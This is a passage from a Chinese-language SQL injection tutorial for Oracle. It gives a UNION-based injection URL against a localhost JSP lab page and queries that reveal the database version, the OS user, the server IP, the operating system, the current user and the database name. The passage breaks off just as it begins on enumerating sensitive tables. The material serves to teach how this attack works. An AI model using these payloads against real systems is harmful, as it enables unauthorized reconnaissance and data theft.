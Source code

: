 信息版本获取：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT NULL, NULL, NULL, (select banner from sys.v_$version where rownum=1) from dual— 
```

![enter image description here](img/img14_u49_png.jpg)

获取启动 Oracle 的用户名:

```
select SYS_CONTEXT ('USERENV','OS_USER') from dual; 
```

服务器监听 IP:

```
select utl_inaddr.get_host_address from dual; 
```

服务器操作系统:

```
select member from v$logfile where rownum=1; 
```

当前连接用户:

```
select SYS_CONTEXT ('USERENV', 'CURRENT_USER') from dual; 
```

获取当前连接的数据库名：

```
select SYS_CONTEXT ('USERENV', 'DB_NAME') from dual; 
```

关于获取敏感的表和字段说明：

1、获取所有的字段 schema：
